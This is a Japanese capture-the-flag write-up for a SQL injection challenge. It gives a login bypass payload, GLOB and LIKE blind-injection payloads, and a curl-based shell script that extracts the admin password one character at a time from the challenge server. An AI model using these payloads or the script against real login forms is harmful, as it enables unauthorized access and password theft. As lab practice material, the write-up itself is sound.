 ## 1
DB問お決まりの

```
id:admin
pass:' OR 1=1
```
をするとソースが見れる。FLAGはadminのパスワードだよと言われる。つまり`FLAG_〜`という形式のパスワードであることは分かる。

## 2
```
id:admin
pass:' OR pass GLOB 'FLAG_*0*'--
```
とかしてひたすら使われてる文字探す。`*`は任意の0文字以上の文字列。【[参考](http://www.dbonline.jp/sqlite/select/index12.html)】上記はFLAGに`0`が含まれていたら認証が通る。  
`GLOB`句は大文字小文字を区別するので、まずは`LIKE`句（大文字小文字を区別しない）で見当をつけたほうが良いかもしれない。  
てかブラウザ面倒くさすぎてこの辺から

```sh
curl -d "id=admin&pass=' OR pass LIKE 'FLAG\_%0%' ESCAPE '\'--" ctfq.sweetduet.info:10080/~q6/
```
とか使い始めた。ちなみに`LIKE`句だと`*`の代わりに`%`を使う。そして`_`が任意の一文字を表すので`ESCAPE '\'`として`\`をエスケープ記号に割り当てて`_`をエスケープしてる。（実際エスケープする必要無いけど…）【[参考](http://www.dbonline.jp/sqlite/select/index6.html)】

使われてる文字が分かる。

## 3
```
id:admin
pass:' OR pass GLOB 'FLAG_??????'
```
とかして文字数を調べる。`GLOB`句において`?`は任意の一文字を表す。  
文字数が分かる。そして、重複を含むかどうかもわかる。

## 4
```
id:admin
pass:' OR pass GLOB 'FLAG_3*'
pass:' OR pass GLOB 'FLAG_???3*'
```
とかひたすらして答えを調べる。  
`N(0~15)`番目に`c(文字)`が来るかどうかを調べるシェルスクリプト。

```sh
#!/bin/sh

function check() {
pass="FLAG_"
for i in `seq 0 $1`
do
	if [ $i -ne 0 ];then
		pass+="?";
	fi
done
pass+=$2
num=`expr 15 - $1`
for i in `seq 0 $num`
do
	if [ $i -ne 0 ];then
		pass+="?";
	fi
done
curl -d "id=admin&pass=' OR pass GLOB '$pass'--" ctfq.sweetduet.info:10080/~q6/
}

RESULT=`check $@`
echo "$RESULT"
```
`check.sh`とかファイル名で保存して、例えば`./check.sh 2 A`ってやると、`pass`を`' OR pass GLOB 'FLAG_??A?????????????'--`に設定して「送信」ボタン押した時と同じようにGETリクエストを投げる。レスポンスは当然ブラウザと同じ。  
つまり`pass`が`FLAG_??A?????????????`の条件に合ってるか簡単に調べられる。  
`chmod +x check.sh`で実行権限付与するのを忘れないこと。
